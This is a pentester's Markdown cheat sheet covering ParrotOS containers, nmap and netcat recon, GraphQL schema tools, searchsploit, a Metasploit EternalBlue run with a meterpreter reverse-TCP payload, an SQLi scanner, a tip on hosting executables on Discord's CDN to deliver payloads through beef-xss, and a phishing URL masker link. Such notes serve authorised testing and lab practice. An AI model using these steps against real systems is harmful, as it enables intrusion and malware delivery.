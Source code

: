 # Security

## Cloud

Start a docker ParrotOS cloud container

```bash
docker run --name psec1 -ti parrot.run/security
docker start psec1
```

Return to an existing container

```bash
docker exec -ti psec1 bash
```

Other helpful commands

```bash
docker ps -a // list container
docker stop psec1 // stop container
docker rm psec1 // remove container
```

Available ParrotOS containers

```
- parrot.run/core
- parrot.run/security
- parrot.run/nmap (nmap, ncat, ndiff, dnsutils, netcat, telnet)
- parrot.run/metasploit (metasploit, postgresql, nmap)
- parrot.run/set (set)
- parrot.run/beef (beef-xss)
- parrot.run/bettercap (bettercap)
- parrot.run/sqlmap (sqlmap)
```

## Recon

### Ping

```bash
ping <ip>

# Pinging [ip] with 32 bytes of data:
# Reply from <ip>: bytes=32 time=25ms TTL=(128 for windows, 64 for windows)
```

### Nmap

#### Initial discovery

```bash
# -sC default scripts
# -sV probe open ports
# -Pn skip host discovery
# -oA output in three major formats
# -sn ping scan
# -A aggresive
nmap -sC -sV -A -Pn <ip>
```

#### Vulnerability analysis

```bash
ls /usr/share/nmap/scripts/ | grep smb
nmap --script smb* -p 139 <ip>
```

### NetCat

```bash
# nc <options> <port>
nc -lnvp 443 # start netcat listener on port 443
```

### GraphQL

#### Cheat Sheet

[graphql vulnerabilities](https://0xn3va.gitbook.io/cheat-sheets/web-application/graphql-vulnerabilities)

#### GraphQLmap

Provides options for gathering schema, fuzzing, and injection
Basic usage

```bash
git clone https://github.com/swisskyrepo/GraphQLmap
python setup.py install
graphqlmap -u <target>
graphqlmap > dump_new
```

#### Clairvoyance

Gathers GraphQL schema from wordlist using discovery methodology on apis with introspection disabled

```bash
pip install clairvoyance
clairvoyance <target>
```

```bash
# -o schema.json  -- file to output to
# -w wordlist.txt -- wordlist file (optional)
# --profile slow -- set speed to slow or fast for rate limiters
# --progress -- reports progress back to user
clairvoyance <target> -o schema.json -w wordlist.txt --profile slow --progress
```

Load the output json into [graphql schema viewer](https://ivangoncharov.github.io/graphql-voyager)

## Exploit

### Searchsploit

Installation

```bash
sudo git clone https://gitlab.com/exploit-database/exploitdb /opt/exploitdb
sudo ln -sf /opt/exploitdb/searchsploit /usr/local/bin/searchsploit
```

Use

```bash
searchsploit eternal
```

### Metasploit

```bash
# example eternal blue
msfconsole-start
search eternalblue
options
set rhosts 10.10.10.40
set payload windows/x64/meterpreter/reverse_tcp
use exploit/windows/smb/ms17_010_eternalblue
set lhost 10.10.14.10
set lport 4321
sysinfo
```

### Running a manual exploit

```bash
sudo git clone https://github.com/:user/:package.git
cd package
pip install -r requirements.txt
```

### SQL Injection

#### Damn Small SQLi Scanner

```bash
sudo git clone https://github.com/stamparm/DSSS.git
cd DSSS
python3 dsss.py -u "<target>"
```

## General Tips

### Easily deploy an exe

- Upload to discord
- Copy cdn path
- Use with beef-xss or anywhere else to deliver payload

### Online tools

[request catcher](https://requestcatcher.com)
[web hooks](https://webhook.site)
[graphql schema viewer](https://ivangoncharov.github.io/graphql-voyager)

### Resources

[hacktricks](book.hacktricks.xyz)
[intruder payloads](https://github.com/1N3/IntruderPayloads)
[url masker](https://github.com/jaykali/maskphish)
[mgeeky pentest tools](https://github.com/mgeeky/Penetration-Testing-Tools)
[openvas vulnerability scanner](https://github.com/greenbone/openvas-scanner)
[swisskyrepo payloads](https://github.com/swisskyrepo/PayloadsAllTheThings)
[ports list](https://github.com/maraisr/ports-list)
[clairvoyance graphql](https://github.com/nikitastupin/clairvoyance)
[graphql map](https://github.com/swisskyrepo/GraphQLmap)
[cheat sheet](https://0xn3va.gitbook.io/cheat-sheets/)
[exploitdb](https://gitlab.com/exploit-database/exploitdb)
